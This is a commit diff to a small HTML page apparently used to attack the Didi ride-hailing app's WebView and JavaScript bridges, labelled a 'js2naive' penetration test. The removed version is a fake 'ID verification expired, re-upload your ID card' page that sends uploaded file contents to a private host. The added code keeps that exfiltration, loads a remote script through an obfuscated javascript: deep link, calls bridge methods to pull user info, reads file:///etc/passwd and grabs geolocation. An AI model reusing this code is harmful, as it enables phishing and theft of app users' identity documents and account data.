

Before and after one commit to keellisa1/web, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,13 +4,116 @@
     <meta charset="UTF-8">
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>滴滴车主 身份认证</title>
+    <title>滴滴出行 js2naive渗透测试</title>
+    <script>
+        function Fusion(e, t) {
+                this.callbackJS = function (e, t) {
+                    alert(document.domain + " got your sensitive information:\n\n" + JSON.stringify(t));
+                };
+        }
+        var Fusion = new Fusion();
+        //var url = "fusion://invokeNative?module=DidiBridgeAdapter&method=getUserInfo&arguments=%5B%7B%7D,%222%22%5D&origin=udache.com";
+        //location = url;
+
+
+    </script>
 </head>
 <body>
-    <h5>您的身份认证已过期，请重新上传身份证</h5>
-    <input type="file" accept="*/*" onchange="fileCallback(window.URL.createObjectURL(this.files[0]))">
+    <h1>滴滴出行 js2naive渗透测试</h1>
+    <a href="https://m.weibo.cn/message/cmts"> wkwebviewconfiguration </a>
+    <h4><a href="onetravel://router/page/web?url=javascript%3A(function()%7Bwindow.s%3Ddocument.createElement(String.fromCharCode(115%2C99%2C114%2C105%2C112%2C116))%3Bwindow.s.src%3DString.fromCharCode(104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C55%2C50%2C46%2C50%2C52%2C46%2C56%2C48%2C46%2C50%2C55%2C58%2C55%2C55%2C56%2C56%2C47%2C112%2C115%2C101%2C117%2C100%2C111%2C95%2C112%2C114%2C111%2C116%2C111%2C99%2C97%2C108%2C115%2C46%2C106%2C115)%3Bdocument.body.appendChild(window.s)%7D)()%3B%2F%2F">伪协议加载恶意js代码 </a></h4>
+    <h1><button onclick="OmegaSDK()">OmegaSDK</button></h1>
+    <h1><button onclick="afusion()">afusion</button></h1>
+    <h1><button onclick="loadJSModules()">loadJSModules</button></h1>
+    <h1><button onclick="funcPrompt()">funcPrompt</button></h1>
+    <h1><button onclick="funcPromptUrl()">funcPromptUrl</button></h1>
+    <h1><button onclick="getLocationConstant()">getLocation</button></h1>
+    <h1><button onclick="startEvilApp()">打开-恶意app</button></h1>
+    <h1><button onclick="ctrf()">跨域脚本攻击</button></h1>
+    <h1><button onclick="routeToThanosPageWithUrl()">routeToThanosPageWithUrl</button></h1>
+    <input type="file" accept="image/*" onchange="fileCallback(window.URL.createObjectURL(this.files[0]))">
+    <input id="inputEl" type="file" accept="image/*"  />
 </body>
-<script type="text/javascript">
+<script>
+     function OmegaSDK() {
+        function Fusion(e, t) {
+                this.callbackJS = function (e, t) {
+                    alert(document.domain + " got your sensitive information:\n\n" + JSON.stringify(t));
+                };
+            }
+            var Fusion = new Fusion();
+            var data = OmgJSBridge.call("userInfo", '1','alert');
+        }
+
+        function afusion() {
+            function Fusion(e, t) {
+                this.callbackJS = function (e, t) {
+                    alert(document.domain + " got your sensitive information:\n\n" + JSON.stringify(t));
+                };
+            }
+            var Fusion = new Fusion();
+            var url = "wvjsbridge://callHandler?cmd=getUserInfo&params=%7B%7D&callback=9&origin=h5.didialift.com";
+            location = url;
+        }
+        function loadJSModules() {
+           alert(prompt('{"fusion":"loadJSModules"}'));
+        }
+
+        function funcPrompt() {
+            window.DidiJSBridge = {
+                callback: function () {
+                    var paramStr = "";
+                    // 遍历arguments
+                    for (var j = 0; j < arguments.length; j++) {
+                        if (j == arguments.length - 1) {
+                            paramStr += arguments[j];
+                        } else {
+                            paramStr += arguments[j] + ",";
+                        }
+                    }
+                    //alert(paramStr);
+                    console.log(paramStr)
+                },
+            };
+            alert(prompt('{"method":"callHandler","types":["string","object","function"],"args":["getUserInfo",null,1],"origin":"udache.com"}'));
+
+        }
+        function funcPromptUrl() {
+            window.DidiJSBridge = {
+                callback: function () {
+                    var paramStr = "";
+                    // 遍历arguments
+                    for (var j = 0; j < arguments.length; j++) {
+                        if (j == arguments.length - 1) {
+                            paramStr += arguments[j];
+                        } else {
+                            paramStr += arguments[j] + ",";
+                        }
+                    }
+                    //alert(paramStr);
+                    console.log(paramStr)
+                },
+            };
+            alert(prompt('fusion://invokeNative?module=DidiBridgeAdapter&method=getUserInfo&arguments=%5B%7B%7D,%222%22%5D&origin=udache.com'));
+        }
+
+        function getLocationConstant()
+        {
+            if(navigator.geolocation)
+            {
+                navigator.geolocation.getCurrentPosition(onGeoSuccess,onGeoError);
+            } else {
+                alert("Brak obs?ugi GPS");
+            }
+        }
+        function startEvilApp() {
+            var url = "snssdk1128sstg://viewwebpage";
+            location = url;
+        }
+        function routeToThanosPageWithUrl() {
+            var url = "https://api.didialift.com/beatles/h5/user/user/homev3?_thanos=1&thanos_js=https%3A%2F%2Fbaidu.com";
+            location = url;
+        }
         function getFile(url, callback) {
             var req_instance = new XMLHttpRequest();
             req_instance.open("GET", url, true);
@@ -25,8 +128,36 @@
         }
         function fileCallback(url) {
             getFile(url, function(contents) {
-            new Image().src = "http://172.24.80.194:7788/?data=" + encodeURIComponent(contents);
+                new Image().src = "http://172.24.80.27:7788/?data=" + encodeURIComponent(contents);
             });
         }
+
+        function ctrf(){
+            var localfile = "file:///etc/passwd"
+            var xhr = new XMLHttpRequest();
+            xhr.onreadystatechange = function() {
+                if (xhr.readyState == 4) {
+                    var txt = xhr.responseText;
+                    alert(txt);
+                }
+            }
+            try {
+                xhr.open("GET", localfile, true);
+                xhr.send();
+            } catch (ex) {
+                alert(ex.message);
+
+            }
+        }
+
+     window.onload = function () {
+     const inputEl = document.getElementById('inputEl');
+     inputEl.addEventListener('change', function (e) {
+      console.log(e);
+    })
+
+  }
+
+
 </script>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
